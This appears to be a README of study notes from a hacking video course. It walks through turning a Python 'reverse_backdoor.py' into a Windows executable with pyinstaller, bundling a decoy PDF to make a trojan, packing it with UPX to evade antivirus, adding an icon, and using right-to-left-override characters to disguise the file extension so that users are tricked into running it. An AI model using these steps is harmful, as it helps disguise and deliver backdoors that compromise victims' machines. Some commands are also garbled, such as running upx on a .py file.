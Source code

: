 ### Converting in binary code of OS

#### Windows

In native OS 
```batch
python.exe -m pip install pyinstaller
pyinstaller script.py --onefile
```

script will create in `dist` directory / folder, 
and run without python installation on computer.

If you make any chnages to script.py compile it again,
 don't need to prompt pop up disable by 

```
python.exe script.py --onefile --noconsole
```

#### Linux

**Video #09**
**Creating a trojan by embedding files in program code**

ON linux computer
compiling with pyinstaller.

# Make sure to run listenser.py 

```bash
wine /root/.wine/drive_c/Python2.7/Scripts/pyinstaller.exe --add-data "/root/Downloads/sample.pdf" --onefile --noconsole reverse_backdoor.py
```


**Video #10**
**Bypassing antivirus program**

**Video #11**
**Bypassing antivirus program**

Using upx for compling in kali linux

```bash
upx reverse_backdoor.py -o malware.exe
```
here `upx` is command or tool or Package which we call and `-o` means output file name

**Video #12**
**Adding Icon for program**

Download or Create or Edit a image 
Convert image to `.ico` extension

```
wine /root/.wine/drive_c/Python2.7/Scripts/pyinstaller.exe --add-data "/root/Downloads/sample.pdf;," --onefile --noconsole  --icon  /path/icon.ico  reverse_backdoor.py
```

**Video #13**
**Spoofing File Extension**

Character: Right to Left Overwrite
> zaid.exe
> zaid-fdp.exe
> zaid-exe.pdf

Note: web browers will not work it will show zaid-fdp.exe and we trying manupilate the user
so, tried to compress and delivery the malware.